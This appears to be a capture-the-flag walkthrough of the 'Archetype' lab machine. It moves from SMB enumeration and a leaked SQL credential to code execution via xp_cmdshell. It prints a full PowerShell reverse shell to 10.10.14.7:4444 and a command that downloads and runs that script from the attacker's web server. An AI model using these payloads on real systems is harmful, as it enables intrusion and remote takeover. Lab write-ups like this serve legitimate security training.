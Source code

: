 ## Recon/Enumeration  
nmap -A 10..10.10.27  
![alt text](./img/archetype01.png?raw=true)  
Port 139 and 445 are open, so SMB is active. Let's try to connect ir with guest creds 
![alt text](./img/archetype02.png?raw=true)  
The folders needed a credential to access, however the backups folder didn't...
![alt text](./img/archetype03.png?raw=true)  

Let’s get this file and read it  
![alt text](./img/archetype04.png?raw=true)  

Found a credential:
- User = ARCHETYPE\sql_svc
- Password = M3g4c0rp123

## Exploit

DTConfiguration is part of a SQL Server configuration. So let’s try to connect to it  
![alt text](./img/archetype05.png?raw=true)

We found some tables with the command: “select * from information_schema.tables”. However there is nothing useful inside. So let’s see if we can execute commands here.  
Doing a research we can find something about xp_cmdshell.  
![alt text](./img/archetype06.png?raw=true)

Wow, let’s try to obtain more info about the system (if need to activate xp_cmdshell try this [link](https://stackoverflow.com/questions/5131491/enable-xp-cmdshell-sql-server))  
![alt text](./img/archetype07.png?raw=true)

Now let’s create as reverse shell ps1 file:

> $client = New-Object System.Net.Sockets.TCPClient("10.10.14.7",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1|Out-String);$sendback2=$sendback+"# ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

After create the file set an http server and a listener:

sudo python3 -m http.server 80  
nc -nvlp 4444  

On the compromised machine run the command:  
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.7/shell.ps1\")"

A shell must appear in the nc listening port.

## Privesc  
Since we are running Powershell, let’s see the command history executed in it  
![alt text](./img/archetype08.png?raw=true)  

Ok, another credential. Let’s try to use it wit smbclient  
![alt text](./img/archetype09.png?raw=true)

## Discovery

